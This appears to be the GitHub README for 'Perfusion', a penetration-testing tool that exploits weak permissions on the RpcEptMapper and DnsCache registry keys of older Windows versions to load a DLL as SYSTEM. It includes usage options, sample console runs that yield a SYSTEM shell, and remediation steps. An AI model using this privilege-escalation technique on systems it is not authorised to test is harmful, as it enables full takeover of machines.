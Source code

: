 # Perfusion

On __Windows 7__, __Windows Server 2008R2__, __Windows 8__, and __Windows Server 2012__, the registry key of the `RpcEptMapper` and `DnsCache` (7/2008R2 only) services is configured with weak permissions. Any local user can create a `Performance` subkey and then leverage the ___Windows Performance Counters___ to load an arbitrary DLL in the context of the WMI service as `NT AUTHORITY\SYSTEM` (hence the tool's name).

This tool is intended to help security consultants during penetration tests. This software is provided as is, and I will probably not provide any support. Though, I tested it thoroughly on three different virtual machines so there should not be any significant issue.

For more information: [https://itm4n.github.io/windows-registry-rpceptmapper-eop/](https://itm4n.github.io/windows-registry-rpceptmapper-eop/)

<p align="center">
  <img src="demo.gif">
</p>

## Known issues

:warning: __READ THIS BEFORE USING THIS TOOL__ :warning:

During the development phase of this tool, I observed __two different behaviors__:

1. The DLL is loaded __directly by the main process__ of the WMI service as `NT AUTHORITY\SYSTEM`, in this case the exploit works perfectly fine.
2. The DLL is loaded __by a subprocess__ of the WMI service that runs as `NT AUTHORITY\LOCAL SERVICE`. In this case, the service loads the DLL __while impersonating the client__. It turns out a privilege escalation is still possible on Windows 7 (because of another vulnerability) but the implementation cost was not worth the effort.

I am not able to explain this difference because my _trigger_ code was always the same. Anyway, in either case, __let the exploit do its job__ so that it can clean everything up when it's done. If the exploit fails, there is still a chance it will work a few minutes or hours later though.

:heavy_check_mark: Here is what you should see when the exploit works:

```console
C:\Temp>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_2900_368_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[+] Exploit completed. Got a SYSTEM token! :)
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.
Microsoft Windows [Version 6.2.9200]
(c) 2012 Microsoft Corporation. All rights reserved.

C:\Temp>whoami
nt authority\system

C:\Temp>
```

:x: Here is what you should see when the exploit fails:

```console
C:\Users\Lab-User\Desktop\workspace>Perfusion.exe -c cmd -i
[*] Created Performance DLL: C:\Users\Lab-User\AppData\Local\Temp\performance_636_3000_1.dll
[*] Created Performance registry key.
[*] Triggered Performance data collection.
[-] Exploit completed but no SYSTEM Token. :/
[*] Waiting for the Trigger Thread to terminate... OK
[*] Deleted Performance registry key.
[*] Deleted Performance DLL.

C:\Temp>
```

## Usage

You can check the help message using the `-h` option.

```console
C:\TOOLS>Perfusion.exe -h
 _____         ___         _
|  _  |___ ___|  _|_ _ ___|_|___ ___
|   __| -_|  _|  _| | |_ -| | . |   |  version 0.1
|__|  |___|_| |_| |___|___|_|___|_|_|  by @itm4n

Description:
  Exploit tool for the RpcEptMapper registry key vulnerability.

Options:
  -c <CMD>  Command - Execute the specified command line
  -i        Interactive - Interact with the process (default: non-interactive)
  -d        Desktop - Spawn a new process on your desktop (default: hidden)
  -h        Help - That's me :)
```

## Remediation

The following versions of Windows are vulnerable:

| Windows version | Vulnerable registry keys |
| --- | --- |
| Windows 7 | RpcEptMapper, DncCache |
| Windows Server 2008R2 | RpcEptMapper, DncCache |
| Windows 8 | RpcEptMapper |
| Windows Server 2012 | RpcEptMapper |

As far as I know, this vulnerability will not be fixed by Microsoft, for some reason. The best solution is still to upgrade to Windows 10 / Server 2019 but if it is not a short-term option, you can still patch this issue yourself by removing the `CreateSubKey` permission for both `NT AUTHORITY\Authenticated Users` and `BUILTIN\Users` on the following registry keys:

- `HKLM\SYSTEM\CurrentControlSet\Services\RpcEptMapper`
- `HKLM\SYSTEM\CurrentControlSet\Services\DnsCache`
